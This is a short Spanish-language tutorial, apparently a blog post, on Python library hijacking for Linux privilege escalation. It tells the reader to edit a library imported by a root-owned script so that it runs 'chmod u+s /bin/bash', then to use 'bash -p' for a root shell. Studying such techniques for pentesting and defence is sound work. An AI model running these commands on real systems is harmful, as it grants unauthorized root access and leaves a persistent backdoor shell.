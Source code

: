 ```yaml
---
layout: single
title: Python Library Hijacking - Privilege Escalation
excerpt: "Hoy aprenderemos como escalar privilegios con una libreria de Python"
date: 2022-10-27
classes: wide
header:
  teaser: /assets/images/tratamientoTTY/logo.png
  teaser_home_page: true
categories:
  - Tecnicas
tags:
  - Escalada de Privilegios
  - Hijacking
  - Pyton
---
```

1) Primero hay que localizar un Script que el dueño sea root

2) Luego al entrar a ese script, veremos que se utiliza alguna librería, y deberemos buscarla en /usr/lib/python... 

3) Entonces, ahora en la librería lo que tenemos que poner es lo siguiente:
``import os``
``os.system("chmod u+s /bin/bash")``

4) Esto lo que hará es que le dará a la bash permisos de superusuario.
ahora solamente deberemos insertar ``bash -p`` y listo.
